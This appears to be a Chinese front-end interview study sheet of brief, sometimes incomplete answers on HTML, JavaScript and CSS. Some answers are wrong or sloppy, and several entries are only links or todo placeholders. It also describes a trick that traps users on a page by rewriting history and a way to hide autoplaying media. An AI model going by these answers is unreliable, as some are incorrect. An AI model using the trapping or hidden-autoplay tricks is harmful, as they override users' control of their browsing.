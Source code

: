 html题目（50）

# 1、说说元素上下层叠关系及七阶层叠关系

正 z-index > z-index：auto or 0 > display：inline > float：浮动盒子 > block 块状水平盒子 > -z-index > 层叠上下文 background/border

# 2、实现九宫格布局

html

# 3、你有使用过IE的条件注释吗？

IE条件注释主要用于加载兼容低版本IE的脚本

# 4、当网页放大或者缩小后如何让页面布局不乱？

采用rem流式布局

# 5、如何使用普通元素拥有像textarea元素一样缩放？

contenteditable
resize:both;

# 6、在网格布局中都有哪些概念呢？比如：网格线

    容器：采用网格布局的区域
    项目：容器内部采用网格定位的子元素
    行：容器里面的水平区域
    列：容器里面的垂直区域
    单元格：行和列的交叉区域
    网格线：划分网格的线

# 7、如何让`<p>测试 空格</p>`这两个词之间的空格变大？

html

letter-spacing和word-spacing这两个属性都用来添加他们对应的元素中的空白。
letter-spacing添加字母之间的空白，而word-spacing添加每个单词之间的空白。
word-spacing对中文无效

# 8、怎样在文本框中禁用中文输入法？

css
ime-mode: disabled

正则校验
/^[\u2E80-\u9FFF]+$/

# 9、说说html5手势检测原理是什么？

手势检测的关键是用 touchstart，touchmove，touchend 三个事件对手势进行分解

# 10、举例说明原生的html组件有哪些？

<dialog>
<progress>
<video>
<template>

# 11、使用history路由方式时，你有自己动手配置过服务器端吗？为什么要配服务器端？怎么配？

hash 只在当前URL内刷新，history支持多个URL

history要请求服务器
hash不请求服务器

# 12、使用history路由方式时，你有自己动手配置过服务器端吗？为什么要配服务器端？怎么配？

history路由会请求服务器，因此需要服务器配合返回一个固定的index.html页面

以nginx配置为例：

location / {
  try_files $uri $uri/ /index.html;
}

以上面的 http://www.example.com/post 为例，$uri 会匹配到 post，nginx 发现 dist 目录下下面没有 post 这个文件，也没有 post 这个文件夹，所以最后会返回 dist 目录下的 index.html。这样，index.html 被浏览器加载之后，前端路由就会工作，将用户需要的资源加载出来。而我们 build 出来的 css，js 文件，由于可以被 nginx 正确找到，则不会受到影响。

# 13、html5的Notification桌面通知如何请求权限？

Notification.requestPermission(callback);

# 14、html5的游戏引擎你了解多少？都有哪些比较好用的引擎呢？

最近接了个小项目
接触了一个游戏引擎 Phaser 主攻2D
Phaser用的别家的内核把 自己加壳子

其他的只是看过介绍

# 15、请说说input的inputmode属性有什么应用场景？

inputmode 全局属性 是一个枚举属性，它提供了用户在编辑元素或其内容时可能输入的数据类型的提示。它可以是以下值：

"none"
无虚拟键盘。在应用程序或者站点需要实现自己的键盘输入控件时很有用。
"text"
使用用户本地区域设置的标准文本输入键盘。
"decimal"
小数输入键盘，包含数字和分隔符（通常是“ . ”或者“ , ”），设备可能也可能不显示减号键。
"numeric"
数字输入键盘，所需要的就是0到9的数字，设备可能也可能不显示减号键。
"tel"
电话输入键盘，包含0到9的数字、星号（*）和井号（#）键。表单输入里面的电话输入通常应该使用 <input type="tel"> 。
"search"
为搜索输入优化的虚拟键盘，比如，返回键可能被重新标记为“搜索”，也可能还有其他的优化。
"email"
为邮件地址输入优化的虚拟键盘，通常包含"@"符号和其他优化。表单里面的邮件地址输入应该使用 <input type="email"> 。
"url"
为网址输入优化的虚拟键盘，比如，“/”键会更加明显、历史记录访问等。表单里面的网址输入通常应该使用 <input type="url"> 。
如果没有设置这个属性，它的默认值是 "text"，表明使用本地的标准文本输入键盘。

# 16、举例说明图片懒加载的方案有哪些？

    利用 getBoundingClientRect() 这个 API 获取图片元素相对于视口的位置，来判断是否需要加载图片

    利用 IntersectionObserverEntry接口 获取目标元素与容器的相交状态

# 17、浏览器是如何解析html的？

获得html文件后，浏览器的内核中负责HTML解析、布局、渲染的引擎就会开始工作。

# 18、html如何启动本地的exe应用？

一般采用自定义浏览器协议的方式实现,可跨平台.
需要exe配合,修改目标机器的注册表.
如果要检测客户端是否已经安装对应的程序,可配合custom-protocol-detection这个项目.

# 19、如何实现前端代码实时预览效果？

websocket

# 20、你有使用过time标签吗？说说它的用途有哪些？

首先time标签是h5的新属性，标签定义为公历的时间或日期。
好处是time约束的日期或时间的编码方式满足机器可读的要求。

# 21、你有使用过blockquote标签吗？说说它的用途有哪些？

用于标记长的引用
浏览器在 blockquote 元素前后添加了换行，并增加了外边距。

# 22、你有使用过meter标签吗？说说它的用途有哪些？

<meter> 标签定义已知范围或分数值内的标量测量。也被称为 gauge（尺度）。

# 23、你有使用过template标签吗？说说它的用途有哪些？

HTML内容模板（<template>）元素是一种用于保存客户端内容机制，该内容在加载页面时不会呈现，但随后可以(原文为 maybe)在运行时使用JavaScript实例化。

将模板视为一个可存储在文档中以便后续使用的内容片段。虽然解析器在加载页面时确实会处理<template>元素的内容，但这样做只是为了确保这些内容有效；但元素内容不会被渲染

# 24、如何使用纯html制作一个进度条？

<progress value="70" max="100">70 %</progress>

HTML中的progress () 元素用来显示一项任务的完成进度.虽然规范中没有规定该元素具体如何显示,浏览器开发商可以自己决定,但通常情况下,该元素都显示为一个进度条形式.

# 25、你有使用过output标签吗？说说它的用途有哪些？

执行计算然后在 元素中显示结果

<input value="i"> </input> + <input value="j"> </input> = <output xx="i + j"></output>

# 26、DOM节点的根节点是不是body？

根节点是HTML

文档对象模型 (DOM) 是HTML和XML文档的编程接口。它提供了对文档的结构化的表述，并定义了一种方式可以使从程序中对该结构进行访问，从而改变文档的结构，样式和内容。DOM 将文档解析为一个由节点和对象（包含属性和方法的对象）组成的结构集合。简言之，它会将web页面和脚本或程序语言连接起来。在文档中的每个元素— 包括整个文档，文档头部， 文档中的表格，表头，表格中的文本 — 都是文档所属于的文档对象模型（DOM）的一部分，因此它们可以使用DOM和一个脚本语言如 JavaScript，来访问和处理。
文档对象模型（DOM）提供了对同一份文档的另一种表现，存储和操作的方式。 DOM是web页面的完全的面向对象表述，它能够使用如 JavaScript等脚本语言进行修改。
DOM的根节点是document对象，即html标签。

# 27、DOM节点的种类有哪些？

可以用node.nodeType来获取节点类型

element_node  元素类型
text_node  文本类型
cdata_section_node
processing_instruction_node
comment_node
document_node  document类型
document_type_node  doctype类型
document_fragment_node  documentfragment类型

# 28、如何扩大CheckBox点击区域

用 label 包裹，扩大 label 尺寸

# 29、如何在网页中嵌入公司地址的地图？

<script src='http://api.map.baidu.com/api?v=2.0&ak=BG9Wtw7egUbIQHPjG9ayOLQO'>
</script>

<script> 
(function(){ 
  var map = new BMap.Map("container");
  //设置底图 map.centerAndZoom("深圳", 18);
  //初始化地址，查询的地址所在市 map.enableScrollWheelZoom();
  //启用滚轮放大缩小，默认禁用 map.enableContinuousZoom();
  //启用地图惯性拖拽，默认禁用

  var localSearch = new BMap.LocalSearch(map);
  localSearch.enableAutoViewport(); //允许自动调节窗体大小

  function searchByStationName() {
    map.clearOverlays();//清空原来的标注
    var keyword = "深圳市罗湖区红桂路2068号红桂大厦一楼";//查询的详细地址
    localSearch.setSearchCompleteCallback(function (searchResult) {
    var poi = searchResult.getPoi(0);
    map.centerAndZoom(poi.point, 18);
    var marker = new BMap.Marker(new BMap.Point(poi.point.lng, poi.point.lat)); // 创建标注，为要查询的地方对应的经纬度
    map.addOverlay(marker);
    var content = keyword;
    var infoWindow = new BMap.InfoWindow("

    " + content + "
    ");
    marker.addEventListener("click", function () { this.openInfoWindow(infoWindow); });
    marker.setAnimation(BMAP_ANIMATION_BOUNCE); //跳动的动画
    });
    localSearch.search(keyword);
    }
    searchByStationName();
}())
</script>

todo


# 30、如何在网页中打开腾讯QQ？

window.open('http://wpa.qq.com/msgrd?v=3&uin=1186&site=qq&menu=yes')


# 31、页面布局时你使用最多的标签是什么？div吗？在什么情况下会使用到div？

整体布局用<header> <main> <aside> <footer>
细分布局用 <div>

# 32、怎样在`<pre>`标签内不转义<和>符号（原样输出html标签）？

空格不行

# 33、pre与xmp标签有什么区别？

xmp的标签，会复把抱在内部的html片段当作字符串输出（此标签已废弃）
<pre></pre> 标签，可以在保留原来文本格式的基础制上让文本在页面上显示出来
<pre> 标签中的特殊符号被转换为符号实体，比如 "&lt;" 代表 "<"，"&gt;" 代表 ">"。

xmp
<xmp> <div>xmp</div> </xmp>
//输出
<div>xmp</div>

pre
<pre> <strong>pre</strong> </pre>
//输出
加粗的pre

# 34、网页打印与标准纸张换算时，cm和px是如何换算的？

(function(){
  // 创建一个1cm宽的元素插入到页面，然后坐等出结果
  let div = document.createElement("div");
  div.id = "cm";
  div.style.width = "1cm";
  document.querySelector("body").appendChild(div);
  // 原生方法获取浏览器对元素的计算值
  let cm1 = document.getElementById("cm").getBoundingClientRect();
  console.log(cm1);
  return cm1.width;
})()

1cm = 37.7890625

# 35、你有使用过html5的rt标签吗？它有什么应用场景？

<ruby>
  汉 <rt>Hàn</rt>
  字 <rt>Zì</rt>
</ruby>

# 36、html5的video如何附带字幕？

<video controls width="400" height="300">
  <source src="../hangge.mp4" type="video/mp4">
  <track src="hangge.vtt" srclang="zh" kind="subtitles" label="中文" default>
  <track src="hangge_en.vtt" srclang="en" kind="subtitles" label="English">
</video>

# 37、html中如何使用svg？

https://github.com/haizlin/fe-interview/issues/2456

# 38、你有使用过webp的图片格式吗？

https://github.com/haizlin/fe-interview/issues/2460

# 39、webp与jpg、png比较，它有什么优劣势？如何选择？

优：

  更优的图像压缩算法，更小的图片体积

  肉眼识别无差异的图片质量

  支持有损无损压缩

  支持动画，透明

  色彩丰富的 24-bit 颜色数

劣：

  存在兼容性问题

选择：

  当 图片较少 体积不大 且存在兼容性问题时，兼容性方法处理起来较复杂，可以选择传统模式

  当 图片较多 且不存在兼容性问题或者兼容性方法处理起来比较简单时，使用webp格式

兼容性处理：

1.通过picture标签进行选择判断

<picture>
    <source srcset="img/pic.webp" type="image/webp">
    <source srcset="img/pic.jpg" type="image/jpeg">
    <img src="img/pic.jpg">
</picture>

该种方法要求在每个要请求webp图片的标签下都要通过picture标签来进行兼容性处理，
同时注意该标签在IE的兼容性并不是很好，不过已经比webp的兼容性好一些。


2.通过服务端判断请求头中的Accept的值判断是否支持webp

通过HTTP request header中是否存在Accept: image/webp来判断，
这种方法的缺点在于：很多时候我们的图片等静态资源都会放到CDN服务器上，在这个层面加上判断webp的逻辑会更麻烦一些

3、由浏览器端判断是否支持WebP格式

if(document.createElement('canvas').toDataURL('image/webp').indexOf('data:image/webp') == 0){
   //  该浏览器支持WebP格式的图片
}

该种方法的原理为：

HTMLCanvasElement.toDataURL() 方法返回一个包含图片展示的 data URI 。可以使用 type 参数其类型，默认为 PNG 格式。

1.如果画布的高度或宽度是0，那么会返回字符串“data:,”。

2.如果传入的类型非“image/png”，但是返回的值以“data:image/png”开头，说明该传入的类型是不支持的。

3.Chrome支持“image/webp”类型。

# 40、如何让table的边框双线变单线？

border-collapse：属性，为表格设置合并边框模型。

# 41、input如何在各个浏览器下保持UI统一？

reset样式

# 42、浏览器是怎么对HTML5的离线储存资源进行管理和加载的


    在线的情况下，浏览器发现html头部有manifest属性，它会请求manifest文件，如果是第一次访问app，那么浏览器就会根据manifest文件的内容下载相应的资源并且进行离线存储。如果已经访问过app并且资源已经离线存储了，那么浏览器就会使用离线的资源加载页面，然后浏览器会对比新的manifest文件与旧的manifest文件，如果文件没有发生改变，就不做任何操作，如果文件改变了，那么就会重新下载文件中的资源并进行离线存储。
    离线的情况下，浏览器就直接使用离线存储的资源。


# 43、说说你对Media Source Extensions(MSE)的理解，它解决了什么问题呢？

Media Source Extensions 允许JavaScript动态地为<audio>和<video>创建媒体流，而不再只能是引用一个视频文件的url。这样就极大地丰富了前端对音视频的处理能力，也赋予了其更多灵活性。

# 44、切页面时，每次都动手刷新看效果很麻烦，如果要让你写一个实时刷新预览的工具你该怎么写？


    node包http, scoket.io建立服务
    静态页面增加webSocket，服务器推送后执行刷新页面
    fs包，fs.watch 监听静态页面，文件变更后推送消息

或者 直接使用browser-sync

# *45、图片上传时实现本地预览功能的原理是什么？

通过HTML5 File API读取用户上传的图片，生成一个image对象显示到页面

# 46、websocket和http有什么区别？

WebSocket是双向的，在客户端-服务器通信的场景中使用的全双工协议，与HTTP不同，它以ws://或wss://开头。
HTTP是单向的，客户端发送请求，服务器发送响应。

# 47、websocket和socket有什么区别？ 

1.Socket 是传输控制层的接口。用户可以通过 Socket 来操作底层 TCP/IP 协议族通信。
2.WebSocket 是一个完整应用层协议。
3.Socket 更灵活，WebSocket 更易用。
4.两者都能做即时通讯

# 48、websocket是如何做心跳检测、数据加密、身份验证的？

# 49、http和websocket能共用一个端口吗？为什么？

# 50、websocket握手阶段是通过什么协议传输的？

HTTP


js题目（50）

# 1、说说防止重复发送ajax请求的方法有哪些？各自有什么优缺点？

    防抖法：在一段时间内重复请求，则取消本次请求
    节流法：在一段时间内只能请求一次，下次请求必须在前一次请求完成后
    等值法:未完成请求状态不再请求，而是完成后直接返回相同的内容

# 2、写一个方法判断数组内元素是否全部相同

const isSameArray = function (array) {
  if (Array.isArray(array)) {
    return new Set(array).size === 1;
  }

  return false;
};

去重

# 3、for in 和 for of 的区别？

for in 用于循环对象上可枚举的属性；（最好不要用于数组）
for of 用于循环具有iterate接口的对象，如：数组、字符串、arguments、标签、日期对象、时间对象等；

# 4、写一个方法实现promise失败后自动重试

Promise.retry = (fun, limit = 5) => {
    return new Promise((resolve, reject) => {
        let _num = 1;
        let _run = () => {
          fun()
          .then(res => {
            resolve(res);
          })
          .catch(err => {
            if(_num++ >= limit){
              reject(err)
            } else {
                console.log('retry again')
                _run()
            }
          })
        }
        _run()
    })
}

let k = 0;
function test() {
    return new promise((resolve, reject) => {
        if(++k >= 3) {
          resolve(k)
        } else {
          reject('hhh')
        }
    })
}

# 5、ajax请求地址只支持http/https吗？能做到让它支持rtmp://等其它自定义协议吗？

ajax只支持http/https协议，
可以通过自定义http头来间接支持自定义协议

# 6、举例说明js立即执行函数的写法有哪些？

(function() {

})()

(function() {

}())

!(function(){

})()

!(()=>{

})()

# 7、如何避免JS浮点运算的精度问题（例：0.1+0.7=0.7999999999999999）

可以利用Number.toLocaleString，默认最多保留3位有效小数

+(0.1 + 0.7).toLocaleString() // 0.8
+(0.1 + 0.2).toLocaleString() // 0.3

(0.1 + 0.7).toLocaleString() => '0.8'

+'0.8' = 0.8

# 8、ReferenceError和TypeError有什么区别？

访问一个 未定义的变量 ReferenceError 

TypeError 类型出错。

# 9、一道变态题 Number.call.call(Number, undefined, 0) 等于什么？

Number.call(Number, undefined, 0) 等于什么？
Number.call.call(Number, undefined, 0) 等于什么？

Number.call(Number, undefined, 0)
= Number(undefined, 0)

Number.call.call(Number, undefined, 0) 
=  Number.call(undefined, 0)
=  Number.call(0)

# 10、获取浏览器当前页面的滚动条高度的兼容写法

document.documentElement.scrollTop || document.body.scrollTop;

# 11、js中的 undefined 和 ReferenceError: xxx is not defined 有什么区别？

console // xxx is not defined 
let a;


console // undefined
var a;

# 12、请使用js实现商品的sku，并说说你的思路

https://github.com/haizlin/fe-interview/issues/2598

# 13、请使用js实现vue的diff算法

todo：https://github.com/haizlin/fe-interview/issues/2602

# 14、写一个单向链数据结构的 js 实现并标注复杂度

https://github.com/haizlin/fe-interview/issues/2606

# 15、用函数实现扑克牌排序

https://github.com/haizlin/fe-interview/issues/2610

# 16、模拟 localStorage 时如何实现过期时间功能

https://github.com/haizlin/fe-interview/issues/2614

# 17、请使用js实现一个秒表计时器的程序

https://github.com/haizlin/fe-interview/issues/2618

# 18、你用过Navigator.sendBeacon()吗？说说它有什么应用场景？

这个方法主要用于满足统计和诊断代码的需要，这些代码通常尝试在卸载（unload）文档之前向web服务器发送数据。

navigator.sendBeacon() 方法可用于通过 HTTP POST 将少量数据异步传输到 Web 服务器。

# 19、给你一个页面，找出该页面使用最多的前三个标签以及他们的数量


const tagSet = Array.from(document.querySelectorAll('*'))
    .map(item => item.tagName)
    .reduce((res, item) => {
        if (res[item]) {
            res[item] = res[item] + 1;
        } else {
            res[item] = 1;
        }
        return res;
    }, {});


 const res = Object.keys(tagSet).map(item => ({
        key: item,
        value: tagSet[item]
    })).sort((a, b) => b.value - a.value)
   
   
console.log(res);

# 20、前端如何保持与服务器时间同步（如何解决客户端与服务端时间不对称的问题）？

1.客户端直接请求并使用服务端时间作为初始时间
2.在客户端每隔一秒自动为初始时间增加一秒

# 21、当用户打开一个网页时，想一直停留在当前打开的页面，如何禁止页面前进和后退

没有历史记录就不会前进后退
window.history.forward(-1);

此需求很不人性化
如果必须实现. 使用 history.pushState 并 监听 popstate 事件. 使历史记录最顶层永远是当前 url

  var url = document.URL;
  history.pushState({
    url
  }, '', url);

  window.onpopstate = function (event) {
    history.pushState({
      url
    }, '', url);
  };

# 22、js延迟加载的方式中，只有IE浏览器支持的是哪一种方式

动态创建script标签，监听onreadystatechange

# 23、你能用js模拟出右键的复制和粘贴功能吗？如果可以说下是如何操作的？如果不可以请说明下理由

可以

1、监听onContextmenu,用户单击右键的时候，屏蔽系统菜单，显示自定义的右击菜单
2、监听复制粘贴按钮的单击事件

# 24、async属性诞生的初衷是什么？

为了并行加载脚本文件---------该脚本不依赖于dom，也不依赖于其它脚本，加载完成立即执行

# 25、解释下隐式全局变量和外部函数作用域

隐式全局变量是不需要声明即可以在任何地方直接使用的变量，如浏览器端的window, node端的global
当函数内包括函数时（闭包），外层函数相对于内层函数的作用域即外部函数作用域

# 26、sessionStrorage也可以使用onstorage事件吗?

onStorage的事件意思是：
https://developer.mozilla.org/zh-CN/docs/Web/API/WindowEventHandlers/onstorage

支持

# 27、使用window.open(url)下载文件时为什么会被浏览器拦截？如何解决？

如果浏览器发现window.open下载文件不是由用户触发，则会拦截
解决方案，二选一：
1.将window.open放在按钮的单击事件中执行
2.动态创建一个a标签，设置url 和 target,执行click,最后移除


# 28、前端下载文件的方式有哪些？

1、a标签download属性和href属性
<a download="imgName" href="./img/1.jpg">
2、open方法
window.open("./img/1.jpg")
3、表单提交
form.submit()

# 29、为什么jsonp不支持post的方法？

jsonp是跨域解决方案的其中一种方式，依赖script来突破同源策略的限制，而script是通过get方式拉取资源的。

# 30、使用try catch哪些异常是捕获不到的？哪些能捕获到？捕获不到的要怎样才能捕获到？

websocket 连接失败时，无法用try...catch...捕捉

# 31、使用canvas画一个小球自由落体的效果

todo

# 32、下文Promise的执行顺序是怎样的？

// 故函数打印顺序为 1->2->3->4->8->5->9->11->6->10->12->7

// 第二行Promise被创建后自动运行，打印 "1" ，后续执行resolve进入第五行箭头函数
// 第六行打印 "2" ，后续创建新Promise对象
// 第七行Promise被创建后立即执行，代码进入第八行，打印 "3" ，后续执行resovle进入第十一行箭头函数
// 第十二行打印 "4" 完成，没有resolve强制执行下个任务进入同步任务队列，回过头来执行第一个Promise的then函数
// 第二十五行箭头函数执行，打印 "8" ,继而执行Promise.resolve，强行插队回到第二个Promise的第二个then十三行中（第一个then被强制resolve）
// 第十四行箭头函数执行，打印 "5" ，回到原始队列，继续执行第一个Promise，代码进入二十八行
// 第二十九行箭头函数执行，打印 "9",第二十四行到三十四行内为第一个Promise的一个then行为，没有resolve，下个任务继而计入同步队列，执行三十五行的下一个then
// 第三十六行箭头函数执行，打印 "11" ，进行下一个异步前需要清空同步队列，现在在同步队列中的任务有第十六行和第二十四行
// 根据同步队列顺序，第十六行then方法先执行，执行十七行箭头函数，打印 "6" ，然后没有resolve强制执行下个任务进入同步队列
// 继续根据同步队列顺序第二十四行then继续执行，前部分已完成，直接进入第三十一行，第三十二行执行箭头函数，打印 "10" ,该同步队列清空，继续下一个异步
// 第三十九行箭头函数执行，打印 "12"，进行下一个异步前摇清空同步队列，同步队列中还剩十九行
// 根据同步队列顺序，第二十行箭头函数执行，打印 "7"，同步队列完成清空
// 进入下一个异步，Promise闭合，异步队列完成清空，函数执行完毕

new Promise((resolve,reject)=>{
    console.log("1") // 第二行Promise被创建后自动运行，打印 "1" ，后续执行resolve进入第五行箭头函数
    resolve()
}).then(()=>{
    console.log("2") // 第六行打印 "2" ，后续创建新Promise对象
    new Promise((resolve,reject)=>{
        console.log("3") // 第七行Promise被创建后立即执行，代码进入第八行，打印 "3" 
        resolve()
    }).then(()=>{
        console.log("4") 第十二行打印 "4" 
    }).then(()=>{
        console.log("5") 
    }).then(()=>{
        console.log("6")
    }).then(()=>{
        console.log("7")
    })
}).then(()=>{
    console.log("8") // 第一个promise后打印 "8"
    Promise.resolve().then(()=>{
        console.log(9)
    }).then(()=>{
        console.log(10)
    })
}).then(()=>{
    console.log("11")
}).then(()=>{
    console.log("12")
})


# 33、说说MutationObserver的应用场景有哪些？

https://github.com/haizlin/fe-interview/issues/2710

# 34、getComputedStyle和element.style有什么不同？

element.style 只能获取内联样式属性
getComputedStyle() 可以获取所有样式属性

# 35、使用js写一个方法生成0000-9999一万个数字（4位数）

Array.from({ length: 10000 }, (_, i) => `${i}`.padStart(4, 0));

# 36、动态加载的li如何绑定事件？

var item1 = document.getElementById("id1");
var item2 = document.getElementById("id2");
var item3 = document.getElementById("id3");

document.addEventListener("click", function (event) {
  var target = event.target;
  switch (target.id) {
    case "id1":
      document.title = "事件委托";
      break;
    case "id2":
      location.href = "github.com";
      break;
    case "id3": alert("hi");
      break;
  }
})

ul.addEventListener('click', function (e) {
var target = e.target
if (target.tagName.toLowerCase() === "li") {
console.log('事件处理')
}
})

# 37、ArrayBuffer和Blob有什么区别？

ArrayBuffer 只读,Blob 可写

Blob 用于操作二进制文件
ArrayBuffer 用于操作内存

# 38、Array(3)和Array(3, 4)的区别是什么？

console.log(Array(3))
console.log(Array(3, 4))

console.log(new Array(3))
console.log(new Array(3, 4))

console.log(Array.of(3))
console.log(Array.of(3, 4))


Array和new Array的执行结果一样
Array.of(3) => [3] 创建一个具有可变数量参数的新数组实例，而不考虑参数的数量或类型。

# 39、随机生成一个指定长度的验证码

默认长度为10，同是可以指定长度
该验证码同时包含数字、大写字母、小写字母、特殊字符

function randomCode(len) {
    const allStr = 'azxcvbnmsdfghjklqwertyuiopZXCVBNMASDFGHJKLQWERTYUIOP0123456789.*&^%$#@!~';
    let code = '';
    for (let index = 0; index < len; index++) {
        code += allStr.charAt(Math.floor(Math.random() * 72));
    }
    return code;
}
randomCode(5)
"zu%I8"

# 40、浏览器中window.length的结果是什么？为什么？

0 

因为window.length表示当前页面中存在的frame或者iframe的数量，不存在就是0。

# 41、你有用过哪些模板引擎？你觉得哪个好用？为什么？


    dot.js art-templete ejs

# 42、cookie的值可以设置为中文吗？为什么？如果可以怎么设置？

可以,需要注意转码问题

# 43、什么情况下会出现js阻塞？


    未在script 使用 async delay 属性且不是body的最后一个标签
    ajax 使用了同步

# 44、怎样做到js无阻塞加载？

    js 资源放在最后
    script标签属性 delay async

# 45、写一个方法，当复制页面中的内容时，同时把版权信息也复制上

https://github.com/haizlin/fe-interview/issues/2771

# 46、在多个页面之间需要传递参数，你是如何传递这些参数的？

localstorage session cookie url参数

使用HTML5新增的postMessage方法

# 47、写一个方法对对象中的key进行排序

Object.prototype.sortedKeys = function() {
    const thisKeys = []
    for (const key in this) {
        if (Object.prototype.hasOwnProperty.call(this, key)) {
            thisKeys.push(key)
        }
    }
    thisKeys.sort()
    return thisKeys
}

a = {name: 'name', aName: 'aname', zName: 'zname'}
a.sortedKeys()
// ["aName", "name", "zName"]

# 48、使用js写一个多文件上传的组件

https://www.cnblogs.com/chengpanpan/p/7074794.html

# 49、如何取消promise？

Promise/A+标准规定了：原Promise对象跟新返回的对象状态一致。所以可以通过返回一个始终是pending状态的Promise对象来取消Promise。

【所以可以通过返回一个始终是pending状态的Promise对象来取消Promise。】

Promise.resolve().then(() => {
  console.log(1)
  return new Promise(()=>{}) // 返回“pending”状态的Promise对象
}).then(() => {
  // 后续的函数不会被调用
  console.log(2)
}).catch(err => {
  console.log(err)
}) // 只输出1

# 50、写一个方法，计算有N个数（可重复），分别放到M个位置中，有多少种排列？

https://github.com/haizlin/fe-interview/issues/2796


css题目（50）

# 1、如何让IE6支持min-width和max-width？

利用IE特有的css语法 

.className {
    max-width:620px;
    min-width:1px;
    _width:expression(this.scrollWidth > 620 ? "620px":(this.scrollWidth < 1? "1px":"auto"));
}

# 2、如何解决IE6浮动时产生双倍边距的BUG？



 1.当块级元素有浮动样式的时候，给元素添加margin-left和margin-right样式，在ie6下就会出现双倍边距
 2.给当前元素添加样式，使当前元素不为块，如：display:inline;display:list-item 这样在元素浮动的时候就不会在ie6下面产生双倍边距的问题了

# 3、 你知道什么是面向对象的css（oocss）吗？有没有实践过？

oocss(Object Oriented CSS)不是一种技术也不是一种语言，它是一种css的书写方法，其核心是用最简单的方式编写最整洁的css代码，使代码更具重用性、可维护性和可拓展性。
OOCSS的两条主要准则：
1.结构和皮肤分离;
2.容器和内容分离;

比如一些常用的字体大小、padding、margin值等可以封装为公共样式，html中引用多个类似的类名达到UI效果，减少特性css的代码量
.text-12{ font-size: 12px; } .text-14{ font-size: 14px; } .text-16{ font-size: 16px; }

# 4、OOCSS有哪些好处？对应的库有哪些？

有语义的类名，逻辑性强的层次关系
可重用，样式和结构的分离，容器和内容的分离
Kite

# 5、flex布局的缺点有哪些？（除兼容性外）

  无法直接定义列数(要使用百分比的方式实现)
  item 如果有多行的话，grid 要比 flex 方便

# 6、CSS中哪些属性会引起GPU渲染，会增加耗电吗？

transform

opacity

filter

will-change

# 7、如何在白天和黑夜自动切换页面的颜色？

@media (prefers-color-scheme: dark)

媒体查询的内容都是设备的属性：宽度高度，旋转方向，打印样式，分辨率
借助 js 切换页面颜色的话，那就是

    获取地理位置
    查询日出日落时间
    根据时间修改全局 theme

# 8、如何给文字的color设置渐变

html

# 9、为什么说css中能用子代选择器的时候不要用后代选择器？

> 作用于元素的第一代后代，空格作用于元素的所有后代

子代选择器：
h1 > strong {color:red;}

后代选择器：
h1 元素中的 em 元素应用样式
h1 em {color:red;}

选择从右到左依次解析匹配，所以后代选择器会去找它的所有父级，
而子代选择器只会选择直接的父级；减少匹配次数，提高效率

# 10、你有没有使用过“形似猫头鹰”（例：* + *{ ... }） 的选择器？

表示和当前li同级的所有li标签。不包括父级li和子级li。

li + li {
  margin-top: 1rem;
}

==>

li:not(:first-of-type) {
  margin-top: 1rem;
}

# 11、用css画一个五边形和一个六边形

五边形：clip-path: polygon(50% 0%, 100% 38%, 82% 100%, 18% 100%, 0% 38%);

六边形：clip-path: polygon(50% 0%, 100% 25%, 100% 75%, 50% 100%, 0% 75%, 0% 25%);

七边形：clip-path: polygon(50% 0%, 90% 20%, 100% 60%, 75% 100%, 25% 100%, 0% 60%, 10% 20%);

clip-path 

# 12、使用纯css来创建一个滑块

https://github.com/haizlin/fe-interview/issues/1982

# 13、使用css3实现一个斑马线的效果

水平
{
  background: linear-gradient(#fb3 33.3%, #58a 0, #58a 66.6%, yellowgreen 0);
  background-size: 100% 45px;
}

<!-- 方向，开始颜色、开始位置，结束颜色、结束位置 -->

垂直 
{
  background: linear-gradient(to right, #fb3 50%, #58a 0);
  background-size: 100% 45px;
}

45度斜条纹
{
  background: linear-gradient(45deg, #fb3 50%, #58a 0);
  background-size: 45px 45px;
}

{
  background: linear-gradient(45deg, #fb3 50%, #58a 0);
  background-size: 45px 45px;
}

更好的斜条纹：

{
  background: repeating-linear-gradient(45deg, #fb3 50%, #58a 0);
}

{
  background: repeating-linear-gradient(45deg, #fb3 50%, #58a 0);
  background-size: 45px 45px;
}

同色条纹
{
  background: #58a;
  background-image: repeating-linear-gradient(30deg,
    hsla(0,0%,100%,1),
    hsla(0,0%,100%,1) 15px,
    transparent 0, transparent 30px
  );
}


# 14、如何使用css实现跨浏览器的最小高度？

todo

# 15、怎么设置可点击的元素上强制手型？

cursor: point

# 16、使用css实现悬浮提示文本

html

# 17、如何禁用移动的选择高亮？

user-select: none;

tap-highlight-color: rgba(0,0,0,0);

tap-highlight-color: transparent;

# 18、颜色hsla的字母分别表示什么？

hsla: 不透明度

h：色度
s：饱和度
l：亮度
a：透明度

# 19、说说你对table-layout的理解，它有什么运用场景？

table-layout的值为 fixed的时候，单元格的宽度只与表格，单元格的宽度有关，与内容无关

table-layout的值为 auto的时候，单元格的宽度为当前列最长行有的宽度来计算

如果想要一个table固定大小，里面的文字强制换行，以达到过长文字不撑破表格的目的，一般用table-layout：fixed

# 20、怎么使用css选择空链接？

html

# 21、如何隐藏没有静音、自动播放的音视频？

- 浏览器已经禁止打开网页时自动播放，可以用iframe 先播放触发播放权限，然后再播放
- opacity: 0

# 22、使用css实现对话气泡的效果

长方椭圆 + 三角型

:after{ 
  content: '',
  width: 0;
  height: 0;
  margin: 100px auto;
  border-top: 50px solid transparent;
  border-left: 50px solid transparent;
  border-right: 50px solid transparent;
  border-bottom: 50px solid red;  border-bottom: trantent ;
}

# 23、你有使用过css的writing-mode属性吗？说说它有哪些应用场景？

用过，该属性可以使文字竖直排列，比如在网页上展示春联

horizontal-tb 水平

vertical-rl 垂直

# 24、css中Scroll-behavior属性有什么应用场景？

手动锚点或者调用api进行页面滚动的时候，Scroll-behavior属性可以为滚动框设定滚动行为，
auto 表示要立即滚动到指定位置， smooth则表示要平滑过渡，

